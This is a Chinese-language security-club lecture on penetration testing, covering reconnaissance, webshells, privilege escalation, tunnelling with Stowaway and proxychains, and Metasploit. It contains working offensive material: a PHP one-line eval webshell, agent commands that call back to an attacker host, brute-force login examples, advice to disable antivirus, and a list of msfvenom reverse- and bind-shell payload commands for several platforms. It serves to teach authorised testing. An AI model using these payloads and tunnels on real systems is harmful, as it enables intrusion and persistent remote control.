

XDSEC Web 第三次组会

主讲：zero6six

# 渗透基本流程

## 1. 前期准备与授权

老生常谈的问题，不要**非授权渗透**，严重情况下要吃牢饭。

除此之外，我们还要确定测试的目标（IP、域名）、时间限制及禁忌（如禁止使用破坏性 DDOS、不死马等）。

## 2. 信息收集

这是渗透中最关键的一步，决定了攻击面的广度。

-   主动收集： 端口扫描（nmap、fscan）、目录爆破（dirsearch）、子域名挖掘。
-   被动收集： 空间资产测绘引擎（Fofa、鹰图等）、Whois 查询

对于某个入口 IP，我们首先要尝试的就是端口扫描，web 服务可以尝试目录爆破，这样就获取到了大部分信息。

## 3. 漏洞发现

基于收集到的信息，寻找潜在的切入点。

-   常见 Web 漏洞： OWASP Top 10（SQL 注入、XSS、文件上传、命令执行等）。
-   系统/服务漏洞： 未授权访问、弱口令、已知 CVE 漏洞（如经典的 MS17-010）。
-   1-Day 利用：可以下载[别人整理的漏洞 EXP/PoC](https://www.bing.com/search?q=PoC+github)，或者直接在相应的漏洞库搜索对应框架，例如[阿里云漏洞库](https://avd.aliyun.com/search?q=phpmyadmin)。**当然这有一定风险，小心中病毒。**

在这之中，相应的优先级从高到低为：

-   弱口令与默认配置：\* 操作：尝试 admin/admin, root/123456，或者数据库、中间件（如 Tomcat, WebLogic）的默认后台账户，以及检查 Redis、MongoDB、Memcached 是否可以直接免密连接；检查某些管理后台（如 `/admin/`）是否可以直接绕过登录访问。
-   利用目标版本号直接匹配成熟的漏洞利用代码：搜索对应的 EXP/PoC
-   然后才是 Web 逻辑漏洞和 OWASP Top 10，因为这些洞要么不易发现，要么有严格的过滤和验证，难以绕过。

## 4. 漏洞利用

获取权限（Getshell）是渗透的核心目标。这一过程我们要利用漏洞，进而 Getshell，同时逐步提升获取到的 Shell 的“质量”。

### 4.1 漏洞利用的三种主流手段

-   手工利用：Web 侧的突破口
    -   上传 WebShell： 利用文件上传漏洞，将恶意脚本（PHP/ASPX/JSP）注入服务器。
    -   一句话木马： 极简的代码实现，如 `<?php @eval($_POST['cmd']); ?>`。
    -   RCE 漏洞： 通过 SQL 注入或不安全配置，直接下发指令安装后门。
-   自动化利用：红队作战的“重火力”
    -   Metasploit (MSF) 框架： 采用“搜索 -> 配置 -> 攻击”的模块化流程。
    -   一键获取 Session： 例如永恒之蓝漏洞。
-   获取交互式 Shell：权限的深度掌控
    -   反弹 Shell (Reverse Shell)： 绕过防火墙限制，让目标机“主动”连回攻击机。
    -   内网代理与转发： 使用 Stowaway 或 Neo-reGeorg 建立隧道，将深层内网的 Shell 转发出来。

### 4.2 权限的演进：理解 Shell 的三种境界

在渗透中，Shell 的“质量”决定了你能走多远。我们需要经历从弱交互到强控制的过程。

#### Level 1：初始 WebShell —— 脆弱的单向指令

-   形态： 简单的 HTTP 请求/响应（Stateless）。
-   本质： 每一条命令都是独立的，没有“上下文”的概念。
-   痛点： \* 不支持交互式命令（如无法输入 SSH 密码）。
    -   不支持多行脚本，特殊字符需编码，极易被 WAF 拦截。
    -   效率极低，像是在通过信封和对方交流。

#### Level 2：管理工具模拟 Shell —— 图形化的“伪交互”

-   形态： 使用 蚁剑 (AntSword)、冰蝎 (Behinder) 或 哥斯拉 (Godzilla)。
-   本质： 工具底层自动将操作封装为 HTTP 请求。
-   痛点： \* 非真实 TTY： 无法处理实时数据流。如果你在里面输入 `top` 或 `vi`，终端会直接卡死。
    -   依赖性强： 依赖 Web 服务进程。一旦中间件（Nginx/Apache）崩溃或重启，连接立即中断。

#### Level 3：系统级后门 Shell —— 真正的掌控

-   形态： Meterpreter (MSF)、Stowaway 代理或真正的 TTY 反弹 Shell。
-   本质： 建立专门的 TCP/UDP 通信隧道，拥有独立的进程。
-   核心优势：
    -   完全交互： 支持 PTY（伪终端），可以使用 Tab 补全和交互式编辑器。
    -   全能工具箱： Meterpreter 就像手术刀，内置了键盘记录、提权、截屏、进程迁移等高阶模块。
    -   穿透力： 即使目标在多层内网深处，也能通过稳定的代理隧道维持控制。

## 5. 后渗透-权限提升

获取初始权限（Entry Point）只是开始，后渗透的目标是获取最高权限并摸清整个内网的拓扑结构。

### 5.1 Linux 提权：寻找系统的“裂缝”
-   SUID 提权：
    SUID 是一种特殊的权限，允许用户以文件所有者（通常是 root）的身份执行程序。如果一些高权限程序（如 `find`, `vim`, `bash`）被错误地设置了 SUID 权限，攻击者就可以借此“越权”。
    -   查找命令：`find / -perm -u=s -type f 2>/dev/null`
-   内核漏洞提权：
    利用 Linux 内核版本（如经典的脏牛漏洞 Dirty Cow）。
-   自动化搜索：
    使用 MSF 中的 `post/multi/recon/local_exploit_suggester` 模块。它会自动比对目标系统的内核版本、已安装补丁，并建议可用的提权模块。

### 5.2 Windows 提权：从 User 到 System
-   MSF 一键提权 (getsystem)：
    在 Meterpreter 终端中，直接输入 `getsystem`。它会尝试通过命名管道欺骗、令牌克隆等多种技术强制获取 System 权限。
-   绕过 UAC (Bypass UAC)：
    如果当前用户在管理员组但受 UAC 限制，可使用 `exploit/windows/local/bypassuac` 等模块弹出高权限会话。
-   内核漏洞 (Local Exploit)：
    针对 Windows 补丁（KB 号）缺失进行的提权，如 MS14-068、CVE-2023-21768 等。

## 6 后渗透-横向移动

横向移动是红队作业的精髓，目标是“以点带面”，拿下域控（DC）或核心数据库。

### 6.1 内网信息再搜集

进入内网后，原来的“外网视野”失效，需要重新探测：
-   自动化工具：上传 fscan。这是目前内网渗透的“瑞士军刀”，支持一键扫描：
-   存活主机探测（ICMP/ARP）。
-   常用端口/服务识别。
-   常见弱口令爆破（SSH、MSSQL、Redis、SMB 等）。
-   MSF 扫描模块：
-   使用 `auxiliary/scanner/portscan/tcp` 进行轻量化扫描。
-   利用 `auxiliary/scanner/smb/smb_version` 寻找内网中未修复“永恒之蓝”的机器。

### 6.2 内网隧道与网络拓扑

在多层内网环境中，获取初始权限只是“登堂”，打通各级网络拓扑实现“入室”才是核心。

#### 6.2.0 前置知识

在进入复杂的内网渗透之前，我们必须先弄清楚：流量是怎么在这些“看不见的管道”里流动的。

##### 1. 门牌号与隔断：IP、网段与多网卡


* IP 与网段：你可以把 IP 理解为门牌号。但在企业内网中，并不是所有门牌都在一条街上。通过子网掩码，网络被划分为不同的网段（如 `192.168.1.0/24`）。
	* 其中 192.168.1.0 是网络号，/24 是 CIDR 表示法，等同于子网掩码 255.255.255.0。
	* 它意味着该子网的前 24 位是固定的网络标识，范围涵盖了从 `192.168.1.1` 到 `192.168.1.254` 的所有可用主机地址。
* 网段隔离：默认情况下，网段 A 和网段 B 是彼此独立的，网段 A 内的计算机不能访问 网段 B 的。
* 多网卡（跳板机的关键）：有些电脑比较特殊，它同时插了两根网线（或连接了两个 WiFi），拥有两个不同网段的 IP。在渗透中，这种机器就是我们的跳板——它是唯一能同时通往“外网”和“深层内网”的桥梁。这种机器能同时与网段 A 和网段 B 中的计算机建立双向链接。

##### 2. 链接的建立：Socket、监听与转发



* Socket (套接字)：通信的“终点站”。由 **IP 地址 + 端口** 组成，是网络通信的唯一标识。
* 监听 (Listen)：就像在家里等快递。你的电脑打开一个端口（比如 8888），并“坐”在那里等着别人来连你。
* 发起链接：“单向敲门”。
	- 核心逻辑： 连接的建立是非对称的。必须由 A 主动去敲 B 正在监听的门，这道门才能打开。
	- 单向变双向： 只要 A 成功“敲开了” B 的门，双方之间就建立了一条双向透明的隧道。从此以后，A 可以给 B 传数据，B 也能顺着这条隧道给 A 回话。
	- 限制： 如果 B 没开门（没监听），或者 B 突然想主动找 A 聊天但 A 没开门，这天就聊不起来。
* 端口转发/流量转发：
	- 跳板机 A 扮演“传声筒”：你把话发给 A 的 111 端口，A 转身原封不动地传给内网 B 的 222 端口。  
	- 在你看来，你是在跟 A 说话；在 B 看来，是 A 在跟它说话。A 隐瞒了你的存在，也替你打通了去往内网的路。

##### 3. 导航与物流：路由表与代理
* 路由表 (Route)：电脑里的“地图”。它告诉电脑：“如果你要去 172.16.x.x 网段，请把包交给 XX 跳板机转发”。在 MSF 里配置路由，就是给攻击机强行塞一张新地图，让它知道该往哪儿发包。
* 代理 (Proxy)：类似于“代购”。如果设置通过代理访问 172.16.x.x，也相当于将数据包交给代理服务器进行转发。

两者的主要区别是：前者对于某网段的请求会自动通过跳板机转发，而后者需要手动设置走某个代理。但这俩有一个共性：==都只允许攻击机通过跳板机向外主动建立链接，外部通过跳板机主动向攻击机建立链接是不行的。==


而对于外部通过跳板机主动向攻击机建立链接的这种情况，我们需要使用端口转发。

##### 4. 正向与反向

这是渗透中最容易混淆的概念，特别是转发容易混淆，只需记住正向转发的目的是让攻击机去连目标机，反向转发的目的是让目标机连攻击机。


| 概念             | 动作描述                                           | 适用场景                          |
| -------------- | ---------------------------------------------- | ----------------------------- |
| 正向连接 (Bind)    | 攻击机主动连接目标机                                     | 目标机有公网 IP，且没防火墙。              |
| 反向连接 (Reverse) | 目标机主动连接攻击机                                     | 主流。 目标在内网或有防火墙，它出得去但你进不去。     |
| 正向转发 (LPort)   | 在攻击机的某端口监听，收到的数据包转发到跳板机的端口（相当于把跳板机的端口转发到攻击机上）  | 想在本地像访问自己电脑一样访问内网服务。          |
| 反向转发 (RPort)   | 在跳板机的某端口上监听，收到的数据包转发到攻击机的端口（相当于把攻击机的端口转发到跳板机上） | 当深层内网的木马没法直接连你的攻击机时，让它连跳板机中转。 |

##### 网络地址转换（NAT）

[视频：路由器是如何工作的？为什么一定需要IP地址](https://www.bilibili.com/video/BV1sCmcBfEPD)

简而言之，NAT 是一种将私网 IP 与公网 IP 进行流量映射的技术。它通过修改数据包头部的 **IP 地址和端口号**，让多台内网机器能够共用同一个公网 IP 访问互联网。

**NAT 的核心工作流程：**

- **出站：** 当内网机器发送请求时，路由器将其 `[私网 IP : 原始端口]` 替换为 `[公网 IP : 分配端口]` 并转发出去。
- **入站：** 当外部数据返回时，路由器根据之前的 **映射表**，将数据包还原并精准转发回对应的内网机器。

这种工作流程导致了内部网络两两可以互相连接（包括路由器与主机间）的连接，但外部网络无法主动与内部网络建立连接。

#### 6.2.1 MSF 原生路由与端口转发

当获取 Meterpreter 会话后，MSF 提供基础的流量控制手段：
-   **路由表 (Route)**：解决“怎么走”的问题。
    -   **作用**：告诉 MSF 内部模块，去往某个内网网段的流量应通过哪个 Session 转发。
    -   **操作**：`run autoroute -s 192.168.52.0/24` (自动添加通往该网段的路由)。
-   **端口转发 (portfwd)**：解决“怎么连”的问题。
    -   **正向转发 (Local)**：`portfwd add -l 6666 -p 3389 -r 192.168.52.20`
        -   _场景_：将深层内网主机的 RDP(3389) 映射到本地 6666 端口，攻击机访问 `127.0.0.1:6666` 即可。
    -   **反向转发 (Reverse)**：`portfwd add -R -l 8888 -p 9999 -L 攻击机IP`
        -   _场景_：**内网木马回连**。让跳板机监听 9999 端口，将收到的流量通过现有隧道推回攻击机的 8888 端口。

#### 6.2.2 Stowaway：智能级联双向隧道

当面对 A-B-C 这种三级及以上的“套娃”内网时，`portfwd` 过于繁琐，推荐使用 **Stowaway**。
-   **双向隧道本质**：Stowaway 建立的是一个全双工的加密通信矩阵。一旦 A-B-C 级联成功，它就是一个支持双向传输的“虚拟专网”。
-   **核心优势**：
    -   **无需多重映射**：只需在 Admin 端下令，B 节点即可监听端口并自动将流量顺着 A 传回 Admin。
    -   **节点管理**：像操作文件夹一样切换节点，支持任意节点间的流量转发。
    -   **级联抗震**：节点间具备重连机制，比单层端口映射更稳定。

#### 6.2.3 代理联动：让 MSF 穿透深层内网

##### 第一步：开启 Socks5 代理
-   **Stowaway 方式**：在 Admin 终端输入 `socks 1080`，即可在攻击机本地 1080 端口开启一个穿透整个 A-B-C 链路的全局代理。
-   **MSF 方式**：

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
run
```

##### 第二步：让 MSF 流量走代理

为了不影响攻击机其他进程，建议针对**单个模块/Payload**设置代理，而非全局。
1. **单个扫描模块走代理**：

    在使用 `portscan` 或 `ms17_010` 等辅助模块时：

    `set Proxies socks5:127.0.0.1:1080`

    `set ReverseAllowProxy true` (允许反向流量走代理)
2. **单个 Payload 走代理（回连）**：

    在生成木马或配置 Handler 时，可以设置 `HttpProxyServer` 等参数，或者利用 Stowaway 映射回来的端口进行接力。
3. **通过 Proxychains 联动**：

    修改 `/etc/proxychains.conf` 为 `socks5 127.0.0.1 1080`。

    使用时：`proxychains msfconsole` 或 `proxychains nmap -sT -Pn 192.168.52.20`。

# 工具使用

## 环境的准备

[Fscan 和 Stowaway 的下载](https://www.123865.com/s/TGmpTd-cE4W3)

- 工具
	- **扫描与发现：** `fscan`（内网神器）。
	- **Web 权限管理：** `蚁剑 (AntSword)`、`冰蝎 (Behinder)` 或 `哥斯拉 (Godzilla)`。 一个目前就够用。
	- **隧道与代理：** `Stowaway`（多级级联）、`Neo-reGeorg`（HTTP 隧道）、`FRP`。同样目前有 Stowaway 就够用。
	- **流量接管：** `Proxifier` (Windows)、`Proxychains` (Linux)。
	- Metasploit：Kali-Linux 自带，也可以在别的 Linux 系统上安装（不建议），或者使用 Docker。
- 网络环境：Metasploit 等工具最好能与攻击入口点（跳板机）互相访问
	- 由于不同平台虚拟机的网络拓扑环境差异巨大，这里只是大致列出操作，具体情况具体分析。
	- wsl 下：将网络模式改成 Mirrored，需要注意 Mirrored 网络模式下访问 VMWare 的 VMnet 有问题，仅对物理网卡适配较好。
	- Docker Desktop 下：在 Setting-Resources-Network 处开启 Enable host networking，然后使用 `--net=host` 参数启动容器
	- VMWare 下：视环境选择桥接、NAT 等。

注意：记得关闭 Windows Defender 防火墙或添加相应规则，避免木马回连请求被阻断。杀软最好也关掉。


## nmap

nmap 是一个网络探测工具与安全/端口扫描器。部分功能（例如 SYN 扫描）仅在以 root 权限运行 nmap 时激活。[查看文档](https://nmap.org/book/man.html)

它有几类常用参数

- 基础扫描（扫描范围与类型）
	- `-sS`：**SYN 扫描** (半开放扫描)。速度快，不容易被记录，是默认推荐。例：`nmap -sS 192.168.1.1`
	- `-sT`：**TCP 连接扫描**。建立完整三次握手，较慢，且会被目标系统记录。例：`nmap -sT 192.168.1.1`
	- `-sn`：**Ping 扫描**。不扫描端口，只确认主机是否在线（存活探测）。例：`nmap -sn 192.168.1.0/24`
	- 这是后续扫描/探测服务的基础，只有确认主机存活/端口开放才会进行后续探测数据包的发送。
	- 不写扫描类型时，在 root 时默认使用 `-sS`，否则 `-sT`。
- 指定扫描端口（默认情况下，Nmap 只扫描最常用的 1000 个端口。）
	* **`-p <端口范围>`**: 指定端口。
	* 单个端口：`-p 80`
	* 多个端口：`-p 80,443,3389`
	* 范围：`-p 1-65535`
	* **`-F`**: 快速扫描 (Fast mode)，只扫描最常用的 100 个端口。
	* **`-r`**: 连续扫描端口，而不是随机打乱顺序扫描。
* 服务与系统侦测：接在基础扫描的扫描类型后使用
	* **`-sV`**: **版本探测**。它会尝试连接端口并获取服务横幅（Banner），告诉你具体的软件版本。
	* **`-O`**: **操作系统探测**。通过分析 TCP/IP 栈的指纹来推测目标运行的是 Linux 还是 Windows。
	* **`-A`**: **一键扫描**。相当于同时开启了 `-sV`, `-O`, 脚本扫描 (`-sC`) 和 路由追踪 (`--traceroute`)。
* 发包速度控制：
	* **`-T<0-5>`**: 时间模板。
	* `T0/T1`：极慢，用于绕过防火墙或入侵检测。
	* `T3`：默认速度。
	* `T4/T5`：极快，适用于可靠的局域网，速度飞快但可能丢包。
* 输出记录
	* *`-oN`**: 保存为人类可读的普通文本文件。
	* **`-oX`**: 保存为 XML 格式，方便导入其他安全工具（如 Metasploit）。
	* **`-oA`**: “全家桶”模式，同时生成普通文本、XML 和 Grep 格式。
- 脚本引擎：用来探测弱口令或已知漏洞
	* **`-sC`**: 使用默认的安全脚本进行扫描。
	* **`--script=<脚本名>`**: 使用特定脚本，例如检测永恒之蓝漏洞：
	`nmap --script smb-vuln-ms17-010 192.168.1.105`

## fscan

常见的较为强大的国产端口扫描器，常用于一键对网络进行扫描，实战中多采用 fscan 而非 nmap。

主要用到的参数：
- `-h string`：指定目标主机,支持以下格式：
	- 单个IP: 192.168.11.11
	- IP范围: 192.168.11.11-255
	- 多个IP: 192.168.11.11,192.168.11.12
	- 网段：192.168.11.0/24
- `-eh string`：排除指定主机范围，格式同上

一般直接启动扫描就完事了，其他参数一般不写，默认会同时生成一份输出文件在 `result.txt`，可以通过 `-no` 参数禁止保存扫描结果。

## Stowaway

**Stowaway** 是一个基于 Go 语言编写的多级代理工具。在实战渗透中，我们经常遇到内网机器不出网、防火墙限制严格的情况，Stowaway 能够帮助我们将外部流量通过多个节点代理进内网，突破访问限制，构建树状的代理网络。

### 角色定义

Stowaway 分为两个角色，你需要分别在攻击机和靶机上运行：
- **Admin (管理端)：** 渗透测试者（也就是你）使用的主控端。
- **Agent (被控端)：** 部署在目标靶机上的程序。

攻击机只需要装 admin 端，靶机/跳板机只需要装 agent。

### 启动与连接

Stowaway 支持多种连接模式，`-l` 就是监听，`-c` 就是主动连接，这两个参数无论是 admin 还是 agent 均通用，还可以使用 `-s` 添加密钥避免自己的隧道被别人利用。

**1. 启动 Admin (攻击机)**

我们需要让 Admin 监听一个端口，等待 Agent 连回来（反向连接）。

```bash
# -l: 监听端口
# -s: 通信加密密钥 (两端必须一致)
./stowaway_admin -l 9999 -s MySecret123
```

**2. 启动 Agent (目标靶机)**

在目标机器上执行 Agent，主动连接我们的 Admin。

```bash
# -c: 连接目标的 IP:端口
# -s: 通信加密密钥
# --reconnect: (可选) 断线重连间隔秒数
./stowaway_agent -c <攻击机IP>:9999 -s MySecret123 --reconnect 10
```

> **提示：** 如果是在 Windows 上运行 Agent 且 Admin 是 Linux，可能会出现乱码，可以在启动 Agent 时加上 `--cs gbk` 参数。

### 连接后的操作

一旦 Agent 连上 Admin，你会在 Admin 的界面看到提示。此时我们需要进入交互模式来管理节点。

#### 1. 管理节点 (Admin 命令行)

在 `(admin) >>` 提示符下，常用命令如下：
- **`detail`**：查看当前所有在线节点的详细信息（ID、IP、主机名）。
- **`topo`**：以树状图展示节点之间的父子关系。
- **`use <ID>`**：选中并操作某个 Agent 节点。
    - 例如：`use 0` （选中第一个连进来的节点）。

#### 2. 节点操作 (Node 命令行)

当你使用 `use <ID>` 进入某个节点后（提示符变为 `(node X) >>`），你就可以控制这个节点进行各种操作了：
- **`shell`**：**获取交互式 Shell**。
    - 直接拿到目标机器的命令行权限（类似 MSF 的 shell）。
- **`socks <端口>`**：**开启 Socks5 代理（最常用）**。
    - 作用：在攻击机（Admin 端）开启一个端口，通过这个端口的流量会被代理进内网。
    - 命令：`socks 7777`
    - 效果：此时配置浏览器或 Proxifier 代理到 `攻击机IP:7777`，即可访问内网网站。
- **`stopsocks`**：关闭当前的 Socks5 代理服务。
- **`upload <本地文件> <远程路径>`**：上传文件到目标机器。
    - 例：`upload /root/fscan.exe C:\Users\Public\fscan.exe`
- **`download <远程文件> <本地路径>`**：从目标机器下载文件。
- **`listen`**：**让当前节点监听端口（构建多级代理）**。
    - 作用：如果内网深处有台机器（Node 2）不能上网，但能访问当前节点（Node 1），我们可以让 Node 1 监听一个端口，等着 Node 2 连过来。
    - 操作：输入 `listen` -> 选择 `1. Normal Passive` -> 输入端口（如 10001）。
    - 随后在 Node 2 上执行 `./stowaway_agent -c <Node1_IP>:10001 -s ...` 即可加入网络。
- **`ssh <IP:22>`**：通过当前节点 SSH 登录其他内网机器。
- **`back`**：返回上一级（Admin）菜单。

### 常用场景速查
1.  **穿透内网访问网页**：
    Admin 启动 -> Agent 连接 -> `use 0` -> `socks 7777` -> 本地配置代理 -> 访问内网业务。
2.  **多级跳板（A -> B -> C）**：
    A 是攻击机，B 是边缘机器，C 是内网深处机器。
    - A 运行 Admin。
    - B 运行 Agent 连接 A。
    - 在 A 上控制 B (`use 0`) 执行 `listen` 监听 10001。
    - C 运行 Agent 连接 B 的 10001 端口。
    - 此时 C 成功上线，流量路径为 A <-> B <-> C。

## Metasploit

**Metasploit** 是网络安全领域最负盛名的开源渗透测试框架，被誉为“黑客手中的瑞士军刀”。它集成了从漏洞发现、自动化利用到深度控制（C2）的全流程功能，拥有海量的漏洞利用脚本（Exploits）和强大的内存后门模块（Meterpreter）。

我们要先使用 `msfconsole` 命令进入 msf 的命令行。在命令行内，我们有如下几类命令可以使用。

### 查看模块信息与使用

- **Auxiliary (辅助模块)：**
    - **作用：** 不直接获取权限，但负责“打辅助”。
    - **功能：** 扫描端口、识别服务版本、暴力破解密码、拒绝服务攻击（DoS）。
	- **常用模块：**
		- `auxiliary/scanner/portscan/tcp`：端口扫描。
		- `auxiliary/scanner/smb/smb_version`：探测 SMB 服务版本（常用于找永恒之蓝漏洞）。
		- `auxiliary/scanner/http/dir_scanner`：网站目录扫描。
- **Exploits (渗透攻击模块)：**
    - **作用：** 利用漏洞（如内存溢出、配置错误）来获取目标系统的访问权限。
    - **特点：** 它们通常会携带一个 Payload（有效载荷）。
	- **常用模块：**
	    - `exploit/windows/smb/ms17_010_eternalblue`：永恒之蓝（入门必学）。
	    - `exploit/multi/handler`：万能监听器（配合木马使用，必须掌握）。
	    - `exploit/windows/rdp/cve_2019_0708_bluekeep`：远程桌面漏洞利用。
- **Payloads (攻击载荷模块)：**
	- **作用：** 门开了之后，你**想让目标干什么**（一般用于弹回一个 Shell）。
	- **常用模块：**
	    - `windows/x64/meterpreter/reverse_tcp`：最经典的 64 位 Windows 反向连接载荷。
	    - `linux/x86/shell_reverse_tcp`：Linux 下的反弹 Shell。
- **Post (后渗透模块)：**
    - **作用：** 拿到权限（Meterpreter）后使用的工具。
    - **功能：** 收集信息、内网横向移动、清理日志。
    - **常用模块：**
	    - `post/windows/gather/checkvm`：检查目标是否是虚拟机。
	    - `post/windows/manage/migrate`：将自己的进程注入到更隐蔽的系统进程里。
- **Encoders / Nops (编码器与空指令)：**
    - **作用：** 主要是为了绕过杀毒软件的检测（免杀）或保持代码对齐。
    - 不常用，这里不写了

咱们这里以 ssh 登录模块为例，搜索的时候可以搜索类型：`search type:auxiliary ssh`


可以用 info 查看这个模块的详细信息


使用 `use auxiliary/scanner/ssh/ssh_login` 可以选中这个模块。这时输入 show options 可以查看这个模块有哪些参数需要设置。


这里我们可以添加 USER_FILE 和 PASS_FILE 来爆破账号和密码，也可以直接用 USERNAME 和 PASSWORD 来登录，RHOSTS 为登录的 IP 地址，RPORT 为相应的端口。

这里起了个测试服务器在 `ssh zero6six@192.168.196.130`，密码为 pass，在 metasploit 中如此使用：

```shell
msf auxiliary(scanner/ssh/ssh_login) > set username zero6six
username => zero6six
msf auxiliary(scanner/ssh/ssh_login) > set password pass
password => pass
msf auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.196.130 # 这里写 rhost 参数一般也行
rhosts => 192.168.196.130
msf auxiliary(scanner/ssh/ssh_login) > show options # 可以看一遍有没有填进去
```

完成之后使用 run 或者 exploit 命令都能启动模块。


### sessions 的管理

什么是 Session:
- 每一次成功的连接（拿到 shell）就是一个 Session。

常用命令:
- **`background` 或 `Ctrl+Z`:** 将当前的 shell 放到后台运行（不关闭连接）。
- **`sessions` 或 `sessions -l`:** 列出当前所有在线的连接。
- **`sessions -i [ID号]`:** 进入（Interact）指定的连接（例如 `sessions -i 1`）。
- **`sessions -k [ID号]`:** 杀掉某个连接。


可以看出 metasploit 对于 shell 类型的 session 内置了这些命令，其中包含上传、下载等。后续我们还会用到 meterpreter 后门类型的 session，其功能更加强大。

### meterpreter 后门木马的生成与启动

对于这类后门木马，有两种形式。

- **独立后门程序 (Standalone Executables)：** 通过 `msfvenom` 手动构建的独立文件（如 `.exe`、`.apk`、`.php`）。
    - **场景：** 常用于社会工程学（诱导点击）、物理接触植入或 Web 漏洞上传。
    - **特点：** 攻击者需手动配置监听器（Handler）来接收弹回的会话。
- **嵌入式攻击荷载 (Exploit Payloads)：** 作为攻击模块（Exploit）的一部分，在漏洞触发后直接注入到目标内存中。
    - **场景：** 配合远程溢出漏洞（如永恒之蓝）使用。
    - **特点：** 模块利用成功后，会自动释放并执行 Meterpreter，无需目标用户交互。

网络连接上当然也分正向和反向类型的。

相关模块的可以使用 `search type:payload linux meterpreter bind_tcp` 等搜索。

#### 独立后门程序

使用 `msfvenom` 生成木马：
- **命令格式:** `msfvenom -p [payload] [参数] -f [格式] -o [文件名]`
- **`-p` (Payload)**：告诉 MSF 使用哪个“炸弹”。
- 在反向连接情况下，要携带参数：
	- **`LHOST` (Local Host)**：你的攻击机 IP（目标连回来的地方）。
	- **`LPORT` (Local Port)**：攻击机上开的接收端口（通常用 4444, 5555 等）。
- 在正向连接情况下，要携带参数：
	- **`LPORT`**：靶机上监听的端口。
- **`-f` (Format)**：生成文件的格式（exe 是 windows，elf 是 linux，raw 是代码原文）。
- **`-o` (Output)**：保存的文件名。

相关常见类别列表如下：

```bash
# ---------------- [ Windows 系统 ] ----------------

# 1. Windows 32位 反向 Shell (兼容性最好，推荐默认使用)
# 场景：目标主动连你，适合穿透防火墙
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f exe -o shell32.exe

# 2. Windows 64位 反向 Shell
# 场景：确定目标是64位系统，且后期需要进行内存注入等高级操作
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f exe -o shell64.exe

# 3. Windows 正向 Shell (Bind Shell)
# 场景：目标有公网IP但不能连你（不出网），或者你在这个内网中可以直接访问目标端口
# 注意：攻击时只需设置 RHOST (目标IP) 连接目标的 4444 端口
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe -o bind_shell.exe

# ---------------- [ Linux 系统 ] ----------------

# 4. Linux 32位 反向 Shell
# 场景：Linux 服务器渗透，生成的是 ELF 可执行文件
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f elf -o shell.elf
# 64 位的
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f elf -o shell.elf

# 5. Linux 正向 Shell (Bind Shell)
# 场景：内网 Linux 服务器，无法反弹连接时使用
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf -o bind_shell.elf

# ---------------- [ Web Shell (用于上传漏洞) ] ----------------

# 6. PHP 反向 Shell
# 场景：目标是 PHP 网站 (Wordpress, ThinkPHP等)，上传后浏览器访问触发
# 注意：-f raw 表示输出源码，因为 PHP 本身就是解释性语言
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f raw -o shell.php

# 7. JSP/WAR 反向 Shell (Java)
# 场景：目标是 Tomcat, JBoss, WebLogic 等 Java中间件
# 技巧：上传 WAR 包会自动解压，更方便部署
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 -f war -o shell.war

# 8. ASPX 反向 Shell
# 场景：目标是 IIS 服务器 (ASP.NET 网站)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f aspx -o shell.aspx

# ---------------- [ 脚本语言 (用于命令执行漏洞) ] ----------------

# 9. Python 反向 Shell
# 场景：目标安装了 Python，或者你想直接复制粘贴代码执行
msfvenom -p cmd/unix/reverse_python LHOST=192.168.x.x LPORT=4444 -f raw -o shell.py

# 10. Bash 反向 Shell
# 场景：Linux 命令行注入，生成一段可以直接粘贴到终端执行的 Payload
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.x.x LPORT=4444 -f raw -o shell.sh
```

注意：反向 Shell 类型的需要连接本地的 Handler，如果本地没开的话会退出。而正向类型的会一直监听，直到连上。

本地 Handler 设置

- **使用模块:** `use exploit/multi/handler` (通用监听模块，必背)。
- **设置 Payload:** `set payload windows/meterpreter/reverse_tcp` (**注意：**这里必须和生成木马时用的 payload 一模一样)。
- **设置参数:** 
	- 反向：`set LHOST ...` 和 `set LPORT ...`。
	- 正向：`set RHOST ...` 和 `set LPORT ...`。
- 若需将 handler 放在后台：`run -j` 或 `exploit -j`。

#### 嵌入式攻击荷载


和上面一样都是需要填写相关参数的，但是只需在选择模块的时候一并选择 payload，然后填上相关参数就可以一键自动化获取 meterpreter，不需要生成木马，启动 Handler 以及木马等。

#### 获取到 Meterpreter之后

